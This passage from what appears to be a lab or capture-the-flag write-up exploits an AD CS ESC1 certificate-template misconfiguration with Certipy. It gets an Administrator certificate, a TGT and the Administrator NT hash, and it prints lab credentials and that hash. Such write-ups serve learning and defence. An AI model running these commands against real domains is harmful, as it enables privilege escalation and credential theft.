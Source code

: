 It was identified that the certificate template **`RetroClients`** is vulnerable to the **ESC1** (Enrollment Services Configuration #1) misconfiguration. This means low-privileged users, like our machine account `BANKING$`, can request a certificate for any user—including privileged ones—without proper validation, potentially allowing for privilege escalation within the domain.

When I tried requesting a certificate on behalf of the administrator using the vulnerable `RetroClients` template, I ran into an error stating that the request didn’t meet the minimum key size requirement. By default, Certipy generates a 2048-bit key, but it seemed like the template was configured to require a larger key.

```bash
certipy req -u 'BANKING$'@retro.vl -p 'sidhere!' -ca retro-DC-CA -template RetroClients -upn Administrator -target dc.retro.vl 
```

![](/assets/img/posts/retro/9.jpg)

I got the following error while trying to request the certificate:

```
Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
```

This clearly pointed to an issue with the **key size** in the request. To confirm, I went back and reviewed the initial output from `Certify`, and found that `RetroClients` template had its **minimum key length set to 4096** (line number 55 ). That explained why the default 2048-bit key from Certipy was being rejected. Therefore let's retry again with specifying the `-key-size` value. 

```bash
certipy req -u 'BANKING$'@retro.vl -p 'sidhere!' -ca retro-DC-CA -template RetroClients -upn Administrator -target dc.retro.vl -key-size 4096
```

Let's use the `administrator.pfx` file generated above to authenticate against the domain and obtain a ticket-granting ticket (TGT), which will provide us with administrative privileges.

```bash
certipy auth -dc-ip 10.10.99.43 -domain retro.vl -username Administrator -pfx administrator.pfx                              
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
```
